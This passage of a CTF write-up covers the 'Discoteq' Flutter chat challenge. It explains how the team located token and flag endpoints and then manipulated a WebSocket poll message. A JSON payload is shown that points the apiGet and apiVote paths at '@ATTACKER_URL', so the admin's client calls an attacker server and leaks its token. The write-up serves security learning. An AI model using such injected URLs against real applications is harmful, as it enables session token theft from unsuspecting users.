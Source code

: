 ## Discoteq \[100]

### Credits

Thanks to Ocean, quanyang, kokrui and waituck for the great teamwork here!:thumbsup:

### TL;DR

This was a Flutter-based chat application where we could send the admin any message that he would read. By manipulating Websocket requests, we could make the client load a malicious [remote Flutter widget](https://github.com/flutter/packages/tree/main/packages/rfw) that would steal the admin's token and send it back to us.

### Initial Observations

I was new to Flutter, so some time was spent analysing the `main.dart.js`, which is the Flutter app compiled by `dart2js`.

Although we can't view it from our end, we could see that there is an `AdminPage`, and a `/api/flag` endpoint that is fetched using `postRequestWithCookies`.

![](<../.gitbook/assets/Screenshot 2022-06-02 at 7.49.45 PM.png>)

It might help to find some other sensitive endpoints. In `LoginPage`, we could see that there is a `/api/token` endpoint. This endpoint returns our current authentication token.

![](<../.gitbook/assets/Screenshot 2022-06-02 at 8.00.19 PM.png>)

Now, let's take a look at the application itself! The goal was to send an exploit to the `admin#13371337` user. There were two main features - sending a normal message and sending a poll.&#x20;

When sending a poll, I noticed that there were some very suspicious parameters in the WebSocket message. By modifying the `apiGet` and `apiVote` paths, we get a callback on our server!

```json
{
    "type":"widget",
    "widget":"/widget/poll",
    "author":{
        "user":"test#9b808596",
        "platform":"web"
    },
    "recipients":["admin#13371337"],
    "data":{
        "title":"test",
        "apiGet":"@ATTACKER_URL",
        "apiVote":"@ATTACKER_URL"
    }
}
```

The `widget`, `apiGet`, and `apiVote` paths are appended to the base URL without sanitization - so using `@ATTACKER_URL` causes the following URL to be constructed:

